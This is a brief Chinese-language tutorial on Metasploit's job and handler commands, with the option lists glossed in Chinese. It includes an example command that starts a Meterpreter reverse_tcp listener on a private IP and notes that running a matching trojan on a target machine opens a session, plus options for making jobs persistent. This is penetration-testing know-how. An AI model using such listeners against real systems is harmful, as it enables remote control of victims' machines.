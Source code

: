 # Metaploit的jobs命令的使用问题

> job命令是用于管理payload handler模块的相关设置

## Job Commands

    Command       Description
    -------       -----------
    handler       Start a payload handler as job//开启一个工作
    jobs          Displays and manages jobs//查看管理
    kill          Kill a job//关闭
    rename_job    Rename a job//重命名

## handler [options]

Spin up a Payload Handler as background job.

OPTIONS:

    -e   An Encoder to use for Payload Stage Encoding //攻击载荷的编码方式
    -h   Help Banner
    -H   The RHOST/LHOST to configure the handler for //设置本机ip
    -n   The custom name to give the handler job//后台名称
    -p   The payload to configure the handler for//装载载荷
    -P   The RPORT/LPORT to configure the handler for//设置本机端口
    -x   Shut the Handler down after a session is established//建立会话后监听关闭

实例：`handler -H 192.168.217.1 -P 2222 -p windows/x64/meterpreter/reverse_tcp -n test1 -x`建立监听后，在另一个界面生成相同的恶意程序，待靶机运行木马时，即会生成一个sessions ,通过`sessions -i sessionid`即可进入监听页面。

使用jobs相关命令即可操作。

## jobs -h 

    -h   Help banner.
    -i   Lists detailed information about a running job.//列举详细jobs信息 jobs - i jobsid
    -k   Terminate jobs by job ID and/or range.//关闭所有的jobs
    -K   Terminate all running jobs.//
    -l   List all running jobs.//列举所有jobs
    -p   Add persistence to job by job ID//通过jobid 添加一些持久性的内容
    -P   Persist all running jobs on restart.//持久运行
    -S   Row search filter.
    -v   Print more detailed info.  Use with -i and -l输出更多详细信息
